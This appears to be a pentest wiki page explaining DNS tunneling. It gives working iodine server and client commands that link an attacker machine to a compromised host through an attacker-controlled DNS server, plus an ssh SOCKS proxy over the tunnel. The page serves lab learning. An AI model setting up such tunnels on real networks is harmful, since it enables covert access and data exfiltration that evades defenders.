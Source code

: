 # DNS Tunneling

## Theory

DNS Tunneling also known as **TCP over DNS**, where an attacker encapsulates other protocols, such as HTTP requests, over the DNS protocol using the [DNS Data Exfiltration technique](../exfiltration/dns.md). DNS Tunneling establishes a communication channel where data is sent and received continuously.

## Practice
{% tabs %}
{% tab title="iodine" %}
[iodine](https://github.com/yarrick/iodine) is a C software that lets you tunnel IPv4 data through a DNS server.  
On the attacking machine we can run the server:
```bash
v4resk@kali$ sudo iodined -f -c -P password 10.1.1.1/24 my.dnsServer.com    
```
On the compromised host, the jumpbox, we will setup the iodine client:
```bash
victim@pwnd.lab$ sudo iodine -P password my.dnsServer.com     
```
Now the attacking machine and the compromised host are sending traffics throught the `dns0` interface. All communication over this interface on the network 10.1.1.1/24 will be over the DNS. We can then setup a socks5 proxy using the `-D` argument of ssh client. 
```bash
veresk@kali$ ssh victim@10.1.1.2 -4 -D 1080 -Nf
```
{% endtab %}
{% endtabs %}

## Resources
{% embed url="https://tryhackme.com/room/dataxexfilt" %}